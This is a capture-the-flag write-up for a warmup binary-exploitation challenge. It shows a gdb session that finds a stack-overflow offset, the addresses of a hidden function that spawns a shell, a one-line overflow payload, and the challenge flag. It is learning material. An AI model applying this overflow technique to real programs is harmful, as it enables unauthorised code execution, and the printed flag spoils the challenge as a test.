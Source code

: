 This is a simple warmup pwn challenge you just need to find the offset and call the overflowed function so at first lets disassemble it using gdb(PEDA)
```
┌─[shark@5h4rk]─[~/Downloads]
└──╼ $gdb w4rmup 
GNU gdb (Debian 10.1-1+b1) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
/home/shark/peda/lib/shellcode.py:24: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if sys.version_info.major is 3:
/home/shark/peda/lib/shellcode.py:379: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if pyversion is 3:
Reading symbols from w4rmup...
(No debugging symbols found in w4rmup)
gdb-peda$ r
Starting program: /home/shark/Downloads/w4rmup 
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE
-134591997

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x0 
RDX: 0x0 
RSI: 0x7fffffffb8a0 ("-134591997\n")
RDI: 0x7ffff7fa7670 --> 0x0 
RBP: 0x4343434343434343 ('CCCCCCCC')
RSP: 0x7fffffffdf38 ("DDDDDDDDEEEEEEEE")
RIP: 0x4011fb (<main+153>:	ret)
R8 : 0x0 
R9 : 0xb ('\x0b')
R10: 0x7fffffffb72f --> 0xb00 ('')
R11: 0x246 
R12: 0x401080 (<_start>:	xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011f0 <main+142>:	call   0x401040 <printf@plt>
   0x4011f5 <main+147>:	mov    eax,0x0
   0x4011fa <main+152>:	leave  
=> 0x4011fb <main+153>:	ret    
   0x4011fc <overflowed>:	push   rbp
   0x4011fd <overflowed+1>:	mov    rbp,rsp
   0x401200 <overflowed+4>:	lea    rdi,[rip+0xe01]        # 0x402008
   0x401207 <overflowed+11>:	call   0x401030 <system@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf38 ("DDDDDDDDEEEEEEEE")
0008| 0x7fffffffdf40 ("EEEEEEEE")
0016| 0x7fffffffdf48 --> 0x100000000 
0024| 0x7fffffffdf50 --> 0x401162 (<main>:	push   rbp)
0032| 0x7fffffffdf58 --> 0x7ffff7e0c7cf (<init_cacheinfo+287>:	mov    rbp,rax)
0040| 0x7fffffffdf60 --> 0x0 
0048| 0x7fffffffdf68 --> 0x7f11df9b3e9e0de9 
0056| 0x7fffffffdf70 --> 0x401080 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011fb in main ()

```
in this i have created a simple pattren and found that during the line `AAAAAAAABBBBBBBBCCCCCCCC` the function is getting overflowed <br>
so we got the offset as 24 and its time to call the function, to call the function we need to know the address of ret and push so lets find that first <br>
```
gdb-peda$ disass overflowed 
Dump of assembler code for function overflowed:
   0x00000000004011fc <+0>:	push   rbp
   0x00000000004011fd <+1>:	mov    rbp,rsp
   0x0000000000401200 <+4>:	lea    rdi,[rip+0xe01]        # 0x402008
   0x0000000000401207 <+11>:	call   0x401030 <system@plt>
   0x000000000040120c <+16>:	nop
   0x000000000040120d <+17>:	pop    rbp
   0x000000000040120e <+18>:	ret    
End of assembler dump.

```
address of ret: `0x000000000040120e`
address of push: `0x00000000004011fc`

so now its time to craft the payload so, the payload be like `offset + p64(ret) + p64(push)`

final payload <br> 
`(python2 -c 'print "A"*24 + "\x0e\x12\x40\x00\x00\x00\x00\x00" + "\xfc\x11\x40\x00\x00\x00\x00\x00"'; cat)  | ./w4rmup`

BOOM you got the shell now just cat the flag 
flag:- `vulncon{y0u_4re_all_s3t_for_pwn}`
